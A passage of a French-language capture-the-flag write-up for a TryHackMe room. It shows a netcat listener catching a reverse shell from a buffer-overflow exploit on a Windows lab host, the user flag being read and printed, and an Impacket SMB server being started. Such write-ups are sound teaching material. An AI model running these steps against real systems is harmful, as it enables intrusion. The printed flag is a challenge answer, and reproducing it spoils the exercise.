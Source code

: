 On inclut la charge utile dans notre fichier exploit.py

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

On écoute le port 1234 pour se connecter sur le reverse shell.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ python exploit.py 
```

On exécute l'exploit.   

**Locate and find the User Flag.**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.74.159] 49177
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\natbat\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 3ABE-D44B

 Directory of C:\Users\natbat\Desktop

05/14/2020  09:24 PM    <DIR>          .
05/14/2020  09:24 PM    <DIR>          ..
04/21/2020  05:00 PM             1,197 Firefox.lnk
04/20/2020  01:27 AM            13,312 gatekeeper.exe
04/21/2020  09:53 PM               135 gatekeeperstart.bat
05/14/2020  09:43 PM               140 user.txt.txt
               4 File(s)         14,784 bytes
               2 Dir(s)  16,291,115,008 bytes free

C:\Users\natbat\Desktop>type user.txt.txt
type user.txt.txt
{H4lf_W4y_Th3r3}

The buffer overflow in this room is credited to Justin Steven and his 
"dostackbufferoverflowgood" program.  Thank you!
```

On obtient un shell.   
Dans le Bureau on voit un fichier user.txt.txt.   
On le lit et on a notre shell.    

La réponse est : {H4lf_W4y_Th3r3}    

**Locate and find the Root Flag**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ smbserver.py kali .
Impacket v0.9.23.dev1+20210315.121412.a16198c3 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
